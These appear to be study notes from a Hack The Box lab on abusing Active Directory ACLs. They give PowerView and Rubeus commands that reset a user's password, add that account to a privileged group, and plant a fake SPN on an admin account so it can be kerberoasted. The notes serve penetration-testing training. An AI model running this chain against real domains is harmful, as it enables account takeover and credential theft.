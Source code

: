 we can get whole attack path from `Transitive Object Control` Section

## **ACL Abuse Tactics**

From previous Section, we will continue to do attack

![Untitled](<.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 9.png>)

* First we will use user `wley` to change password of `damundsen`
* then using `damundsen` we will use `Generic Write` right to add user we control to `Help Desk Level 1` group
* User of `Help Desk Level 1` group is member of `Info Tech` group and member of `Info Tech` group have generic all right over user `adunn`
* Thus we will take control of user `Adunn`
* `PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force` → creating $secpassword variable which stores passoword of wley
* `PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)` → creating $cred variable which stores PSCredential object which contains securely stored user credentials. Because later -Credential parameter expects a PSCredential object not a plain text string.
* `PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` → creating variable to store password for damundsen user

import powerview and then

* `PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` → changing password of user damundsen
* `PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $damundsenPassword)` → creating PSCredential object which contains creds of user damundsen

Before adding user damundsen to `Help Desk Level 1` Group, lets confirm our user is not a member of the target group

* `PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`

Now lets add to `Help Desk Level 1` group

* `PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`
* `PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName` → confirming damundsen was added to the group

If for some reason we donot have permission to interrupt the admin account `adunn`

we can create a fake SPN, then kerberoast to obtain TGS ticket and hopefully crack the hash offline .

* `PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` → creating a fake SPN
* `PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap`
